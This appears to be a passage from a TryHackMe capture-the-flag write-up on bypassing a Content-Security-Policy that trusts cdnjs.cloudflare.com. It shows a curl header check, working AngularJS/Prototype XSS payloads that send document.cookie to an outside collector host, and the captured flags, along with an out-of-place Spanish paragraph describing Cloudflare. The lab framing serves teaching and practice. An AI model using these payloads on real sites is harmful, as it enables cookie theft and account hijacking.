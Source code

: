 
*THM{N0_JSONP_D0mains_Plz}*

Flag for attack-6  

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.245.72.50:3006/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-dyUmDNHThGqYNHzzoVqcbliNcLE"
Date: Thu, 12 Jan 2023 04:05:44 GMT
Connection: keep-alive

Cloudflare es una empresa que ofrece una variedad de servicios de seguridad y desempeño para sitios web. Sus servicios incluyen protección contra ataques DDoS, aceleración de contenido, y privacidad DNS. También ofrece opciones para mejorar la seguridad del sitio, como la autenticación de usuarios y la encriptación SSL. Es usado para proteger y optimizar la disponibilidad y seguridad de las aplicaciones web.

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().document.location='https://witty.free.beeceptor.com/' + $on.curry.call().document.cookie}}
</div>

or

<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().document.location='https://witty.free.beeceptor.com/' + $on.curry.call().document.cookie}}
</div>


GET `/flag=THM%7BTrust_N0_CDN%7D`

429 0.0s a few seconds ago

flag=THM{Trust_N0_CDN}

```
